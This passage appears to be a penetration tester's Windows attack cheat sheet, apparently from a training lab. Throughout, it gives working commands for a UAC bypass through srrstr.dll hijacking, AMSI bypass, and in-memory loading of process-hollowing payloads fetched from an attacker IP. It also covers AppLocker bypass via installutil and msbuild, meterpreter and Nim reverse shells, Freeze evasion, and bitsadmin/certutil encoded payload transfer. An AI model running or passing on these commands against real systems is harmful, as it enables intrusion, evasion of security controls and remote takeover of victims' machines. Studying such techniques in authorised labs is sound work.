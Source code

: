             //Trigger:
                cmd.exe /c bitsadmin /Transfer myJob http://192.168.49.121/file.txt %USERPROFILE%\Desktop\enc.txt && certutil -decode %USERPROFILE%\Desktop\enc.txt %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\srrstr.dll || del %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\srrstr.dll
                cmd.exe /c timeout /T 25 && certutil -decode %USERPROFILE%\Desktop\enc.txt %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\srrstr.dll & del %USERPROFILE%\Desktop\enc.txt
                $payload = "cmd.exe /c bitsadmin /Transfer myJob http://192.168.49.121/file2.txt %USERPROFILE%\Desktop\enc2.txt && certutil -decode %USERPROFILE%\Desktop\enc2.txt %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\HollowUAC.exe || del %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\HollowUAC.exe
                cmd.exe /c timeout /T 25 && certutil -decode %USERPROFILE%\Desktop\enc2.txt %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\HollowUAC.exe & del %USERPROFILE%\Desktop\enc2.txt & echo 1 > c:\windows\tasks\a.txt"
                cmd /c timeout /T 40 && C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
            \\192.168.45.158\visualstudio\Hollow\HollowUAC\bin\x64\Release\HollowUAC.exe
        //*HollowDLL.dll - MSF running in memory via PS:
            (new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX
            $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.121/HollowDLL.dll')
            $assem = [System.Reflection.Assembly]::Load($data)
            $class = $assem.GetType("HollowDLL.Program")
            $method = $class.GetMethod("Hollow")
            $method.Invoke(0, $null)
            //Bypass Method:
                set IP=192.168.49.121
                C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /cmd="echo '#######AMSIBYPASS#######'; (New-Object System.Net.WebClient).DownloadString('http://%IP%/amsi.txt') | IEX; $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.121/HollowDLL.dll'); $assem = [System.Reflection.Assembly]::Load($data); $class = $assem.GetType(\"HollowDLL.Program\"); $method = $class.GetMethod(\"Hollow\"); $method.Invoke(0, $null); echo '#######DONE#######'" /U c:\windows\tasks\S.exe
        //Hollow.exe - MSF running in memory via PS:
            //use HollowDLL if possible
            (new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX
            $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.121/Hollow.exe')
            $assem = [System.Reflection.Assembly]::Load($data)
            [Hollow.Program]::Main("".Split())
        //**Freeze Meterpreter Generator & Runner:
            msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw -o sc.bin
            //EXE:
                ./Freeze -I sc.bin -O Frozen.exe -encrypt -console -process 'notepad.exe'
                //192.168.49.121/visualstudio/Freeze/Frozen.exe          
        //Quick PS Shell w/ HoaxShell:
            ./hoaxshell.py -s 192.168.49.121 -cm
                //upgrade: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\192.168.49.121\visualstudio\Hollow\Hollow.csproj
        //Quick Reverse Shell w/ Nim:
            nim c -d:mingw --app:gui -o:RevNim.exe rev_shell.nim
            use multi/handler; set payload windows/shell_reverse_tcp
            \\192.168.49.121\visualstudio\RevNim.exe

    //File Transfer:
        //Encoded Bitsadmin:
            certutil -encode \\192.168.45.188\visualstudio\PSApplockerBypass\InstallUtilBypass\bin\x64\Release\InstallUtilBypass.exe \\192.168.45.188\visualstudio\PSApplockerBypass\InstallUtilBypass\bin\x64\Release\file.txt
            bitsadmin /Transfer myJob http://192.168.45.188/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe 
        //PowerShell HTTP:
            //.ps1 Script:
                //Proxy-Aware:
                    IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.obs.ps1')
                //Non-Proxy Aware: